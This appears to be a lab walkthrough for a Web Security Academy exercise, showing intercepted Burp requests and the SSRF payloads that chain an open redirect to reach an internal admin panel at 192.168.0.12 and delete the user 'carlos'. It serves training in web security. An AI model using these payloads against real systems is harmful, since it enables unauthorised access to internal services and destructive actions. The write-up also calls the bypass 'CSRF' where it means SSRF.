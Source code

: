 
## Intercepting the main stock-fetch request in BurpSuite

	POST /product/stock HTTP/2
	Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
	Cookie: session=****
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 66
	Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	Priority: u=0
	Te: trailers

	stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

> with 'urlencode' extension

	stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

>	I need to bypass regular CSRF protection.
>	On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

	GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
	Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
	Cookie: session=****
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: same-origin
	Sec-Fetch-User: ?1
	Priority: u=0, i
	Te: trailers

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'
 
	stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

![Solved lab](./screenshots/solved_lab.png)

